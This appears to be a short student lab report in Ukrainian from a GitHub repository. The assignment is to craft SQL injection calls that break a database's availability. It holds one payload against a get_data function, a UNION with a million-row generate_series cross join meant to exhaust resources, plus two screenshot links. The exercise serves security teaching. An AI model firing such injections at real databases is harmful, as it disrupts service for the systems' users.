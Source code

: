 ## Створити виклики функції з SQL-ін'єкціями з порушень доступності, приклади яких представлені в теоретичних відомостях.
## Створити знімки екранів з результатами виконання викликів функції та розмітити їх у файлі access_results.md у GitHub-репозиторії.
Програмний код:
SELECT * FROM get_data('1'' UNION (SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER) FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1 CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- '); 
![image](https://user-images.githubusercontent.com/55044802/208712648-4de42f49-99af-4b47-b04b-07fbdedc707f.png)

![image](https://user-images.githubusercontent.com/55044802/208713477-eb765939-d6f4-4b47-ac88-c1ef0e9d8f1d.png)
